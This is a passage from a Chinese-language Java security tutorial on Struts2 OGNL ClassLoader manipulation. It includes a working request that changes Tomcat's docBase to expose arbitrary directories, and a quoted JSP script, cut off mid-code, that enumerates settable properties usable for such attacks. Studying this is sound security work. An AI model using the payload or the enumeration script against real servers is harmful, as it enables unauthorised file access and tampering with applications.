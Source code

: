 在 struts2 中， root 对象是当次访问的 Action 对象，而其 ClassLoader 通常由运行环境所提供，例如在 Tomcat 下，这个 ClassLoader 应该为当前应用所使用的：`org.apache.catalina.loader.WebappClassLoader`。

在这个 ClassLoader 中，存放了很多在容器运行时，上下文中的所需要的一些值，如果这些值被修改了，可能会影响到应用程序的运行方式。

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296703.png" style="zoom:50%;" />

能被我们修改的属性需要有以下几个条件：
- 有 set 方法，或者是可以使用 set 方法改变的值；
- 修饰符应该是 public；
- 属性的返回值应该是通过用户的输入可以被 OGNL 解析成为相应的对象；
- 修改后能够对应用程序造成影响，导致安全风险。


例如访问：`http://localhost:8080/test.action?class.classLoader.resources.dirContext.docBase=/Users/phoebe/Downloads`

此时 Tomcat 的文档路径将会改为我们传入的指定路径，可以访问其中的内容：

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296705.png" style="zoom:50%;" />


在互联网上  yiran4827 师傅发出了他编写的脚本，用来找到 Tomcat 中可能存在风险的相关属性：

```java
<%!public void processClass(Object instance, javax.servlet.jsp.JspWriter out, java.util.HashSet set, String poc){
	try {
	    Class<?> c = instance.getClass();
	    set.add(instance);
	    Method[] allMethods = c.getMethods();
	    for (Method m : allMethods) {
		if (!m.getName().startsWith("set")) {
		    continue;
		}
		if (!m.toGenericString().startsWith("public")) {
		    continue;
		}
		Class<?>[] pType  = m.getParameterTypes();
		if(pType.length!=1) continue;
		
		if(pType[0].getName().equals("java.lang.String")||
		pType[0].getName().equals("boolean")||
		pType[0].getName().equals("int")){
			String fieldName = m.getName().substring(3,4).toLowerCase()+m.getName().substring(4);
			out.print(poc+"."+fieldName + "<br>");
		}
	    }
	    for (Method m : allMethods) {
		if (!m.getName().startsWith("get")) {
		    continue;
		}
		if (!m.toGenericString().startsWith("public")) {
		    continue;
		}		
		Class<?>[] pType  = m.getParameterTypes();
		if(pType.length!=0) continue;
		if(m.getReturnType() == Void.TYPE) continue;
		Object o = m.invoke(instance);
		if(o!=null)
		{
			if(set.contains(o)) continue;
			processClass(o,out, set, poc+"."+m.getName().substring(3,4).toLowerCase()+m.getName().substring(4));	
		} 
	    }
	} catch (java.io.IOException x) {
```